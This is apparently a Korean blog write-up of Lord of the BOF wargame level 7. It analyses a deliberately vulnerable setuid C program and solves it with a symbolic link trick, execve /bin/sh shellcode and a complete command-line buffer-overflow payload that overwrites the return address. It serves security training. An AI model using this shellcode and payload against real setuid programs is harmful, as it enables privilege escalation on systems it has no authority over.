 ```yaml
---
title: BOF/ LOB-level7(darkelf)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 7(darkelf)
**ID : darkelf**  
**PASSWD : kernel crashed**  

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level7/1.PNG)  
사용자 orge의 권한의 orge파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 orge의 권한으로 파일을 실행할 수 있다.**  
**orge파일이 쉘을 실행시키도록 한다면 사용자 orge의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  
**orge.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. argv[0]의 길이가 77이 아닌경우 "argv[0] error"를 출력하고 프로그램을 종료한다.  
**argv[0]는 파일명이다. 따라서 파일명의 길이가 75가 아닌 경우 문제를 해결할 수 없다.**  
**파일을 실행할 때 사용하는 명령어 ./도 포함하여 77이기 때문에 파일명은 75**  
3. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
4. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
5. argv[1]의 길이가 48보다 큰 경우 "argument is too long!"을 출력 후 프로그램 종료  
**RET뒤에 NOP과 ShellCode를 삽입하는 공격 불가**  
6. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
7. memset으로 buffer를 모두 0으로 초기화  

### Solution  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 같이 argv[1]의 주소를 이용한다.**  
**추가로 소스분석2번의 조건을 회피하기 위해 심벌릭링크를 이용하여 파일명의 길이를 75로 맞춘다.**  

**심벌릭링크?**  
링크를 연결하여 원본 파일을 직접 사용하는 것과 같은 효과를 내는 링크이다. 윈도우의 바로가기와 비슷한 개념  

#### level7에서 사용한 쉘코드  
**\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**
이전에 사용하던 41Byte 쉘코드는 buffer의 크기가 작아 사용하기 어렵기 때문에 25Byte 쉘코드를 사용  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 기존 orge.c를 복사하여 argv[1]의 주소를 출력하는 코드를 추가.   
**buffer에 삽입한 쉘코드는 초기화되지만 argv[1]에는 남아있기 때문에 이를 이용**   

{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[1]);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  
**orge.c를 복사하여 소스 추가 -> printf("%p\n", argv[1]);**  


![그림2](/assets/LOB/level7/2.PNG)  
위의 방법으로 argv[1]의 주소를 획득.  
argv[1]의 주소 -> 0xbffffbb5

### Attack  

argv[1]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
orge의 권한으로 set-uid가 걸린 orge파일에 심벌릭 링크를 걸고  
**./심벌릭링크 [ShellCode] + [dummy] + [argv(1)주소]**의 형태로 공격.  
**이 때 ShellCode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**
**또한 RET에 덮을 NOP의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림3](/assets/LOB/level7/3.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A'*19 + '\xb5\xfb\xff\xbf'"`
```